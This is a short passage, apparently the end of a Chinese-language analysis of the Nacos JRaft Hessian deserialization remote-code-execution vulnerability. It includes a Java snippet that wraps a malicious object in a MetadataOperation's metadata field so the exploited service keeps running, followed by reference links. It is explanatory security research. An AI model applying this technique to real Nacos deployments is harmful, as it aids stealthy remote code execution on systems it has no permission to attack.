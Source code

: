我们可以构造一个 MetadataOperation 对象，并将其 metadata 属性设置恶意对象，此时反序列化后的对象符合预期，不会报错，服务就会正常运行
```java
MetadataOperation metadataOperation = new MetadataOperation();
setFieldValue(metadataOperation,"metadata",hashMap);
```

参考：
[漏洞风险提示｜Nacos Jraft Hessian反序列化漏洞](https://mp.weixin.qq.com/s/0J0K0iY3bcmYcOuPGymAlQ)
[Nacos Hessian 反序列化 RCE](https://y4er.com/posts/nacos-hessian-rce/)
[Nacos Raft Hessian反序列化漏洞分析](https://l3yx.github.io/2023/06/09/Nacos-Raft-Hessian%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
[Nacos JRaft Hessian 反序列化分析](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)